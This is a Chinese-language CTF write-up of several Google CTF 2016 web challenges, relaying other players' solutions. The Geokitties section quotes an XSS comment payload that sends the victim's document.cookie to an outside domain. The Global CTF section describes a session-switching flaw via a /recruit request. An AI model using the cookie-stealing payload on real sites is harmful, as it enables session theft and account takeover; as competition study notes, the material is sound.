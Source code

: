 用 ctfcompetition.com@ctfcompetition.com.yourdomain 注册一个新的 Google 帐号，然后再登录目标页面，即可获得 Flag。

....

## Global CTF

描述
**Can you break into this CTF website? Features Two Factor Authentication for unbeatable security.**

这里是看了这篇wp，自己并没有做出来...
[http://buer.haus/2016/05/01/google-ctf-web-8-global-ctf/](http://buer.haus/2016/05/01/google-ctf-web-8-global-ctf/)

有趣的是，这题真的是一个ctf平台[https://github.com/Nakiami/mellivora](https://github.com/Nakiami/mellivora)
也就是说才google的题目里又有一个ctf平台

按照作者的意思，他在本地搭建了一个平台，一个页面一个页面的找，但是并没有找到什么问题（和我们一样）
但是...
**Nothing interesting. So I move on and eventually click on my Profile page.**

**I’m all of a sudden logged in as the admin and there is the flag:**

...
他测试后发现如果你用/recruit这里的请求改变你的用户session，你就可以登陆上不同的用户...

```
I created a new account and walked through the steps again to verify. Indeed, any time you use the /recruit request you change your current user session logging you into a different account.

I’ll have to revisit this later because it doesn’t seem like the intended solution or I missed something obvious.

```
...好吧...

## Geokitties

**Blast from the past. Prepare to enter a world of early 90's HTML, complete with background music. Visit GeoKitties today!**

题目没看，不过找到一个wp，说
```
'post_id=1&comment=<a href="javascript:location=\'http://domain/\'%2bdocument.cookie" onclick="">'
```

# networking
这次google遇到了一类没见过的题目，叫networking，队里没人会做。。。贴上大神的wp，以后学习

[http://blog.eqoe.cn/posts/google-ctf-2016-part1.html](http://blog.eqoe.cn/posts/google-ctf-2016-part1.html)